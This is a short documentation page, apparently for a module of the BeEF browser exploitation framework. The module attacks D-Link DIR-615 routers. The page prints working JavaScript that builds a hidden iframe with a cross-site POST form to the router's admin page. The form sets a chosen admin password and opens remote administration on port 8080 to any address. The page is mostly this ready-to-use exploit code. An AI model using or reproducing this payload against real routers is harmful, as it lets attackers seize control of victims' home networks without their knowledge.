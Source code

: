 ## Summary

* **Objective**: enable remote administration and change the admin password on a D-Link DIR-615 router
* **Authors**: antisnatchor, n0x00
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/dlink_dir_615_csrf)

## Internal Working

Uses iframes with a POST form to enable remote administration on port 8080 and change the admin password on a D-Link DIR-615 router.

```js

  var gateway = '<%= @base %>';
  var passwd  = '<%= @password %>';
  var timeout = 15;

  var dir615_iframe_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "tools_admin.php", "POST", "application/x-www-form-urlencoded",
      [{'type':'hidden', 'name':'ACTION_POST',     'value':'1'} ,
       {'type':'hidden', 'name':'apply',           'value':'Save Settings'},
       {'type':'hidden', 'name':'admin_name',      'value':'admin'},
       {'type':'hidden', 'name':'admin_password1', 'value':passwd},
       {'type':'hidden', 'name':'admin_password2', 'value':passwd},
       {'type':'hidden', 'name':'rt_enable',       'value':'on'},
       {'type':'hidden', 'name':'rt_enable_h',     'value':'1'},
       {'type':'hidden', 'name':'rt_ipaddr',       'value':'0.0.0.0'},
       {'type':'hidden', 'name':'rt_port',         'value':'8080'}
      ]);

  
```

## Feedback

